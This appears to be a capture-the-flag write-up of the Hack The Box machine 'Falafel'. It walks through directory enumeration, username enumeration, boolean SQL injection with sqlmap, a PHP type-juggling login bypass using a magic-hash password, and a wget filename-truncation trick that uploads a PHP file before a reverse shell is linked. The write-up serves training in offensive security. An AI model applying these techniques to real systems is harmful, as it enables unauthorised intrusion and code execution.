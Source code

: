 # 10 - Falafel


# Index

![](vx_images/2542343168894.png)



# Gobuster
```bash
┌─[user@parrot]─[10.10.14.12]─[~/htb/falafel]
└──╼ $ cat gobuster/falafel.log
/images               (Status: 301) [Size: 311] [--> http://falafel.htb/images/]
/login.php            (Status: 200) [Size: 7063]
/uploads              (Status: 301) [Size: 312] [--> http://falafel.htb/uploads/]
/header.php           (Status: 200) [Size: 288]
/assets               (Status: 301) [Size: 311] [--> http://falafel.htb/assets/]
/footer.php           (Status: 200) [Size: 0]
/upload.php           (Status: 302) [Size: 0] [--> profile.php]
/css                  (Status: 301) [Size: 308] [--> http://falafel.htb/css/]
/profile.php          (Status: 302) [Size: 9787] [--> login.php]
/index.php            (Status: 200) [Size: 7203]
/js                   (Status: 301) [Size: 307] [--> http://falafel.htb/js/]
/style.php            (Status: 200) [Size: 6174]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/robots.txt           (Status: 200) [Size: 30]
/cyberlaw.txt         (Status: 200) [Size: 804]
/connection.php       (Status: 200) [Size: 0]
/server-status        (Status: 403) [Size: 299]
```

# cyberlaw.txt
![](vx_images/1862750535509.png)

* User **chris**
* Admin access without password
* Code execution on image upload


# Wrong identification
![](vx_images/3057759218894.png)

After several tries we should notice **Wrong identification** is printed only when a username is valid.


# admin and chris
![](vx_images/855583786417.png)

# invalid usernames
![](vx_images/4556183849664.png)


# SQL injection

![](vx_images/3417417901260.png)


There is no such user obviously but it prints out wrong identification anyway because each condition returns true. That means we can inject sql. It's a boolean type sqli because we only get Wrong identification (True) and Try Again(False)


# SQLmap
![](vx_images/3945760082784.png)

To get a quicker result you can query only for mysql like I did here.


# Chris's password
![](vx_images/4365522158895.png)

Sqlmap managed to crack the password for chris.

Admin hash is also starts with 0e. This might be a type juggling problem

in php

* '7' == 7  # True
* '7ab' == 7 # True

Php will extract the number from the string and do the comparison after that

If the number starts with 0e this will be parsed as 0. It is mentioned in [#Type juggling in php](file:///home/user/htb/falafel/notes/10%20-%20Falafel.md#type-juggling-in-php)



# Login Successful
![](vx_images/5737505716418.png)


# Type juggling in php 

![](vx_images/1294537515510.png)

php doesn't care if it is a string or an integer if the comparison is made by == and 0e is treated as 0

![](vx_images/1755869841261.png)

If we can find a hash starts with 0e, the hash for admin will be treated as 0

![](vx_images/3172282799665.png)


Php is comparing 0 == 0 in this example.

We need a magic string whose hash starts with 0e

I found this [240610708](https://news.ycombinator.com/item?id=9484757) for the admin password

# Admin

![](vx_images/4614126486307.png)


We know from cyberlaw.txt that there should be a vulnerability here.


# Wget client

![](vx_images/91011747315.png)

# Wget version
![](vx_images/2203399877129.png)

# Searchsploit
```bash
┌─[user@parrot]─[10.10.14.12]─[~]
└──╼ $ searchsploit wget
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------

GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution                                                                                             | linux/remote/40064.txt
```

Unfortunately this box is running a patched version of wget.  The vulnerability arises when wget follows a redirect  and saves the file as its current name. This is basically arbitrary file upload, this has been patched on this box.  It saves the file as the original request.

# File length limit
![](vx_images/3064148841455.png)

It hints at filename length limit. We can abuse file name length to upload a php file.

![](vx_images/3098246462995.png)

However this doesn't look vulnerable at the first glance because we can't have a filename more than 255 on our linux box either. What does wget have to say about this?



![](vx_images/3600204598831.png)

Wget cuts down on file name if it exceeds 240 characters


```sql
Upload via url:
Upload Succsesful!
Output:

CMD: cd /var/www/html/uploads/0624-1906_51789a50b7486b13; wget 'http://10.10.14.12/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png'

The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2021-06-24 19:06:39--  http://10.10.14.12/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [image/png]
Saving to: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php'

     0K .....                                                 100%  679K=0.008s

2021-06-24 19:06:40 (679 KB/s) - 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php' saved [5493/5493]

Specify a URL of an image to upload:
```

AAAA.php.png filename is cut down to AAAA.php, now it has php file extension.

I used php-reverse-shell.php to get a  shell 

# [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
![](vx_images/3394750701773.png)
